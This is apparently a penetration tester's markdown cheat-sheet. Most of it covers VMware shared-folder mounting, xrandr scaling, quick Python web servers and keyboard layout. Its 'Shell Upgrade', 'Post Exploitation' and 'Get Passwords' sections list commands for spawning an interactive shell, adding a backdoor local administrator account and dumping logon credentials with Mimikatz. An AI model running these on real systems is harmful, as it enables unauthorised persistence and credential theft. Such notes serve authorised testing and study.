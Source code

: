 ### Linux VM - Mounting a Windows Share - Script ###
Simple Version:
```
sudo /usr/bin/vmhgfs-fuse .host:/ /mnt/hgfs -o subtype=vmhgfs-fuse,allow_other,nonempty
```
Slightly Better Version:
```
#!/bin/bash

vmware-hgfsclient | while read folder; do
  echo "[i] Mounting ${folder}   (/mnt/hgfs/${folder})"
  mkdir -p "/mnt/hgfs/${folder}"
  umount -f "/mnt/hgfs/${folder}" 2>/dev/null
  vmhgfs-fuse -o allow_other -o auto_unmount ".host:/${folder}" "/mnt/hgfs/${folder}"
done

sleep 2s
```

### Adjusting the Scale ###

Find out the name of the screen 

> xrandr | grep connected | grep -v disconnected | awk '{print $1}'

Zoom in by 20%
> xrandr --output screen-name --scale 0.8x0.8

Zoom out by 20%
> xrandr --output screen-name --scale 1.2x1.2

Reset xrandr
> xrandr --output screen-name --scale 1x1

### Simple Web Servers

>python3 -m http.server

>python -m SimpleHTTPServer 80


### Shell Upgrade!

>python -c "import pty; pty.spawn('/bin/bash')"

>/bin/bash -i


### Post Exploitation

Add new user and add to local admin group

> net user gary password /add

> net localgroup administrators gary /add



## Get Passwords

> privilege::debug

> sekurlsa::logonpasswords

## Set GB keyboard in Linux
> setxkbmap -layout gb
